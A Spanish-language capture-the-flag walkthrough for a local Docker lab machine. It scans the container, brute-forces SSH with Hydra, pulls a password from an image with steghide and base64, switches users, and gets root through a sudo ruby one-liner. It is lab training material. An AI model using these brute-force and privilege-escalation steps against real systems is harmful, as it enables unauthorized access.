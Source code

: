 Desplegamos el contenedor:

```Bash
bash auto_deploy.sh amor.tar
```

![Pasted image 20250204221333](https://github.com/user-attachments/assets/7b01c852-46da-4ff8-96ce-719538e6e103)

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![Pasted image 20250204221445](https://github.com/user-attachments/assets/0ed28c79-8157-4592-88b2-e3f7d34f10a6)

Nos metemos en la web:

![Pasted image 20250204222448](https://github.com/user-attachments/assets/e1a75271-7a40-4daf-b16b-54e84b0057fa)

Encontramos usuario carlota.

Fuerza Bruta con **Hydra**:

```Bash
hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

![Pasted image 20250205091518](https://github.com/user-attachments/assets/9678edb5-cabe-4039-851d-07774cc6bd4d)

Nos conectamos con **SSH**:

```Bash
ssh carlota@172.17.0.2
```

![Pasted image 20250205091642](https://github.com/user-attachments/assets/58d8001e-65e2-4b3c-aaf3-749136cc45c8)

```Bash
/bin/bash -i
```

![Pasted image 20250205092027](https://github.com/user-attachments/assets/3c0faa09-1fad-4c8e-8862-5071294984d2)

```Bash
ls
```

![Pasted image 20250205092151](https://github.com/user-attachments/assets/02514ed4-24b2-4f26-8698-f9aac0cac77c)

```Bash
cd
```

![Pasted image 20250205092210](https://github.com/user-attachments/assets/6e02d9d5-a204-4d93-a4e8-117015e0a0e7)

```Bash
ls
```

![Pasted image 20250205092243](https://github.com/user-attachments/assets/ff71d8a1-0ff0-4bdd-9286-23fb6f17aad1)

```Bash
cd
```

![Pasted image 20250205092304](https://github.com/user-attachments/assets/18d9d01e-61dc-4fae-9d41-98c7432d26b3)

```Bash
ls
```

![Pasted image 20250205092328](https://github.com/user-attachments/assets/120ab719-232a-4758-8de1-f54a8c8daf89)

```Bash
scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg imagen.jpg
```

![Pasted image 20250206151843](https://github.com/user-attachments/assets/3605223c-afbc-43f4-aa78-bfa72b2392f4)

```Bash
ls
```

![Pasted image 20250206152402](https://github.com/user-attachments/assets/834e4203-e58f-470b-9722-36715fa99cc2)

```Bash
steghide extract --stegofile imagen.jpg
```

![Pasted image 20250206152432](https://github.com/user-attachments/assets/f533101d-c540-4d9c-b1fd-42b56711e21d)

```Bash
'blank'
```

![Pasted image 20250206152442](https://github.com/user-attachments/assets/bdccb033-333b-428c-b0eb-2dbc5b21eb76)

```Bash
ls
```

![Pasted image 20250206152205](https://github.com/user-attachments/assets/265dc855-2c74-408f-a533-05316a397029)

```Bash
cat secret.txt
```

![Pasted image 20250206152229](https://github.com/user-attachments/assets/5fb007d6-8a29-432b-a109-cfe71722be07)

```Bash
echo ZXNsYWNhc2FkZXBpbnlwb24= | base64 -d
```

![Pasted image 20250206152323](https://github.com/user-attachments/assets/a76ea90f-ffb0-4b77-9b53-60fad07da375)

```Bash
cd /home
```

![Pasted image 20250206153209](https://github.com/user-attachments/assets/8510715f-03e8-4840-b3d8-10b599db03a9)

```Bash
ls
```

![Pasted image 20250206153221](https://github.com/user-attachments/assets/5821b805-5375-40f8-bc38-95fb05deda4e)

```Bash
su oscar
```

![Pasted image 20250206153256](https://github.com/user-attachments/assets/54178a68-0890-40b1-9be8-f2fa026d78de)

```Bash
/bin/bash -i
```

![Pasted image 20250206153340](https://github.com/user-attachments/assets/6463805b-4752-453c-9af0-8428cf738c0f)

Elevamos privilegios:

```Bash
sudo -l
```

![Pasted image 20250206153400](https://github.com/user-attachments/assets/8b6c5887-6f00-46c3-97bf-4242257893d7)

```Bash
sudo ruby -e 'exec "/bin/bash"'
```

![Pasted image 20250206153543](https://github.com/user-attachments/assets/bec0753a-9069-41a5-87b2-bd9779ebd550)

```Bash
whoami
```

![Pasted image 20250206153602](https://github.com/user-attachments/assets/07696c8a-9994-46d3-8a87-d9ba658c2f02)
